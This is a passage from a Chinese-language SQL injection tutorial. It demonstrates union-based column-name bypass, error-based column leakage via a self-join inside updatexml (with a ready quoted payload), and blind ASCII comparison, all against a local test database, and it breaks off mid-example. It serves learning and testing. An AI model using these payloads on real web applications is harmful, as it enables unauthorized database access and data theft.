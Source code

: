 ```
mysql root@localhost:sql_injection_test> select group_concat(b) from (select 1,2 as b,3,4 union select * from table1)a
+-----------------------+
| group_concat(b)       |
+-----------------------+
| 2,admin,tim,mike,mike |
+-----------------------+
1 row in set
Time: 0.008s
```

第一次联合查询构造一个列名为`1,b,3,4`的表,并且表中的数据来源于`table1`,第二次联合查询将该列读出来

2. union+order by

看前面的`order by`注入

3. join

>假定union被过滤

[MySQL JOIN 菜鸟教程](https://www.runoob.com/mysql/mysql-join.html)

通过`join`可建立两个表之间的内连接,通过对要查询列名的表与其自身进行内连接,会产生的相同列名,从而发生错误带出数据(即列名)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211800660.png)

`using()`用于两张表之间的`join`连接查询,并且`using()`中的列在两张表中都存在,由此剔除掉前一次注入时得到的列名

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201211803273.png)

```
select * from(select * from table1 as a join table1 as b)c;
select * from(select * from table1 as a join table1 as b using (id))c;
select * from(select * from table1 as a join table1 as b using (id,username))c;
```

payload如下

`' and updatexml(1,(select * from(select * from table1 as a join table1 as b)c),1)#`

4. ascii

```
mysql root@localhost:sql_injection_test> select * from test;
+------+
| flag |
+------+
| abcd |
+------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select (select 'a')>(select * from test);
+-----------------------------------+
| (select 'a')>(select * from test) |
+-----------------------------------+
| 0                                 |
+-----------------------------------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select (select 'b')>(select * from test);
+-----------------------------------+
| (select 'b')>(select * from test) |
+-----------------------------------+
| 1                                 |
+-----------------------------------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select (select 'aa')>(select * from test);
```